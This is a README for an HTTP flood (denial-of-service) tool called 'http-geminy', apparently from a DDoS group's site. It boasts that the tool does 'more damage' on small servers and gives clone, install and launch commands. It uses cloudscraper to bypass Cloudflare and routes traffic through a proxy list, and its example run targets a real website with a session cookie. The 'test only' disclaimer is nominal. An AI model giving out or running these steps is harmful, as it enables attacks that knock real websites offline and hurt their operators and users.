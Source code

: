 #                                                                SCRIPT REMASTERISED BY DARLINGSH & SST-SH FOR SST-DESTROYER.NET
# Made for test only this script is very powerfull on small server, more cpu ram more damage that logique
#
# HTTP-GEMINY

🧨 This script is encoded to prevent skido change script🧨

#Clone and Install Script

    git clone https://github.com/DarlingSh1337/http-geminy

    cd http-geminy

#Installation Tutoriel for Skido

INSTALL NODEJ AND NPM

Ubuntu: *

apt install nodejs

apt install npm

Centos: *

yum install nodejs 

yum install npm

    npm i request

    npm i cloudscraper
    
    npm i fs
    
    npm i crypto
    
    npm i hex
    
    npm i events

    CREATE OR UPDATE HTTP.TXT FILE IN DIRECTORY and put PROXYLIST on it

#Launch Script

    node http-geminy.js url proxylist.txt time method coockie(if you whant you dont need coockie)

    node http-geminy.js https://www.zataz.com/ http.txt 90 GET PHPSESSID:tisv10jeevnd5k7lrbt1a5h4l7

